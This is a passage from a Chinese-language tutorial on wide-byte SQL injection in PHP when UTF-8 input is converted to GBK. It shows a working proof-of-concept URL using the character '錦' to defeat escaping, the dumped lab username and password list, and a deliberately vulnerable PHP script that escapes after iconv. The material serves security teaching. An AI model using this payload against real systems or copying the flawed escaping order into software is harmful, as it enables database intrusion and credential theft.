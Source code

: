这里既是问题也是出在php的代码层，我们之前针对gbk编码的poc也不再生效。这里我们考虑这样一种情况在utf-8中是否存在这样一个字符，在其在被转向gbk之后，在生成的gbk编码中低位为%5c，其实这样的字符有很多，只需要找个utf-8、gbk互相转换工具一转就好了，E98CA6（‘錦’）是前辈们经常使用的一个字符，其对应的gbk为E55C
也就是说其在有转义符号的情况下会生成这样的序列E55C5C（E5\\\）看见了吗转义符现在变成了普通的反斜杠了，注入产生

poc
```shell
http://127.0.0.1/multi-bytes-inject-2.php?userName=Dumb%E9%8C%A6%27%20or%201=1%20%23
```

result
```shell
userName : Dumb 
pass : Dumb 
userName : Angelina 
pass : I-kill-you 
userName : Dummy 
pass : p@ssword 
userName : secure 
pass : crappy 
userName : stupid 
pass : stupidity 
userName : superman 
pass : genious 
userName : batman 
pass : mob!le 
userName : admin 
pass : admin 
userName : admin1 
pass : admin1 
userName : admin2 
pass : admin2 
userName : admin3 
pass : admin3 
userName : dhakkan 
pass : dumbo 
userName : admin4 
pass : admin4 
```
**4、 转义处理出现在iconv“之后”**

之前的3个场景虽说poc或者原理不同，但是它们有一点是相通的，那就是它们的“转义操作”都是出现在设置字符集或者字符集转换之后的，也就是说在“字符操作”之前，输入的恶意数据和过滤插入的转义字符完成了混合，也就有可能在后面的字符操作时被“吃”掉，如果“转义操作”出现在“字符操作之后”呢
```php
<?php
include_once("con.php");
if(!$_GET["userName"]){
    die("please input GET method userName param");
}
$encodeuserName = iconv("UTF-8", "gbk", $_GET["userName"]);
$userName = mysqli_real_escape_string($con, $encodeuserName);
echo $userName;
$sql = "select * from users where username = '{$userName}'";
mysqli_query($con,"set NAMES gbk");
$result = mysqli_query($con,$sql);
if(!$result){
    die(mysqli_error($con));
}
while($row = mysqli_fetch_row($result)){
    printf("username : %s <br /> pass : %s",$row[0], $row[1]);
}
mysqli_free_result($result);
mysqli_close($con);
?>
```
上面这段代码，利用方法和场景3一样
